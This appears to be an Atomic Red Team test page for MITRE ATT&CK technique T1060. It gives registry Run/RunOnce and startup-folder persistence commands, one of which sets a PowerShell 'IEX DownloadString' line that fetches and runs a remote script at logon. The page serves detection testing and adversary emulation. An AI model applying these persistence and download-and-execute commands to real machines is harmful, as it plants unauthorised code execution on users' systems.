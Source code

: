 # T1060 - Registry Run Keys / Start Folder
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1060)
<blockquote>Adding an entry to the "run keys" in the Registry or startup folder will cause the program referenced to be executed when a user logs in. (Citation: Microsoft Run Key) The program will be executed under the context of the user and will have the account's associated permissions level.

Adversaries can use these configuration locations to execute malware, such as remote access tools, to maintain persistence through system reboots. Adversaries may also use Masquerading to make the Registry entries look as if they are associated with legitimate programs.

Detection: Monitor Registry for changes to run keys that do not correlate with known software, patch cycles, etc. Monitor the start folder for additions or changes. Tools such as Sysinternals Autoruns may also be used to detect system changes that could be attempts at persistence, including listing the run keys' Registry locations and startup folders. (Citation: TechNet Autoruns) Suspicious program execution as startup programs may show up as outlier processes that have not been seen before when compared against historical data.

Changes to these locations typically happen under normal conditions when legitimate software is installed. To increase confidence of malicious activity, data and events should not be viewed in isolation, but as part of a chain of behavior that could lead to other activities, such as network connections made for Command and Control, learning details about the environment through Discovery, and Lateral Movement.

Platforms: Windows

Data Sources: Windows Registry, File monitoring

Permissions Required: User, Administrator</blockquote>

## Atomic Tests

- [Atomic Test #1 - Reg Key Run](#atomic-test-1---reg-key-run)

- [Atomic Test #2 - Reg Key RunOnce](#atomic-test-2---reg-key-runonce)

- [Atomic Test #3 - PowerShell Registry RunOnce](#atomic-test-3---powershell-registry-runonce)

- [Atomic Test #4 - Startup Folder](#atomic-test-4---startup-folder)


<br/>

## Atomic Test #1 - Reg Key Run
Run Key Persistence

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | Thing to Run | Path | C:\Path\AtomicRedTeam.exe|

#### Run it with `command_prompt`!
```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Atomic Red Team" /t REG_SZ /F /D "#{command_to_execute}"
REG DELETE "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Atomic Red Team" /f
```
<br/>
<br/>

## Atomic Test #2 - Reg Key RunOnce
RunOnce Key Persistence

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| thing_to_execute | Thing to Run | Path | C:\Path\AtomicRedTeam.dll|

#### Run it with `command_prompt`!
```
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "#{thing_to_execute}"
REG DELETE HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /f
```
<br/>
<br/>

## Atomic Test #3 - PowerShell Registry RunOnce
RunOnce Key Persistence via PowerShell

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| thing_to_execute | Thing to Run | Path | powershell.exe|

#### Run it with `powershell`!
```
$RunOnceKey = "HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce"
set-itemproperty $RunOnceKey "NextRun" '#{thing_to_execute} "IEX (New-Object Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat`")"'
Remove-ItemProperty -Path $RunOnceKey -Name "NextRun" -Force
```
<br/>
<br/>

## Atomic Test #4 - Startup Folder
Add Shortcut To Startup via PowerShell

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| thing_to_execute | Thing to Run | Path | C:\Path\AtomicRedTeam.exe|

#### Run it with `powershell`!
```
$TargetFile = "$env:SystemRoot\System32\#{thing_to_execute}"
$ShortcutFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\Notepad.lnk"
$WScriptShell = New-Object -ComObject WScript.Shell
$Shortcut = $WScriptShell.CreateShortcut($ShortcutFile)
$Shortcut.TargetPath = $TargetFile
$Shortcut.Save()
```
<br/>
